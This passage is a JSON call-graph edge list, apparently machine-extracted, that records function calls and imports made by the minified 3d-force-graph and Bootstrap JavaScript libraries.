"static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "coordinateSystem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "outputColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "outputColorSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toJSON"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "toArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setCrossOrigin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectingObjects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hoverFilter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hoverOrderComparator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "easing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "easing"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyQuaternion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fitToBbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cameraPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "expandByObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "project"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromCamera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectObjects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onRightClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setPixelRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addPass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "load"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_destructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "linkMethod"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lineHoverPrecision"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "controls"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fitToBbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cancelAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_animationCycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tickFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "requestAnimationFrame"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "scene"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "camera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "controls"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tbControls"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pauseAnimation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "graphData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "objects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lights"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderObjs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "camera"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "controls"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onLoading"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onFinishLoading"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "graphData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cbrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onFinishUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sub"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "d3AlphaTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "resetCountdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onNodeDrag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onNodeDragEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "d3AlphaTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "resetCountdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hoverOrderComparator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tooltipContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hoverDuringDrag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onHover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clickAfterDrag"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBackgroundClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onRightClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onBackgroundRightClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_animationCycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "static/js/bootstrap-4.5.2.min.js", "target": "jquery"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "static/js/bootstrap-4.5.2.min.js", "target": "popper.js"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "require"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "triggerTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trim"}, {"confidence": 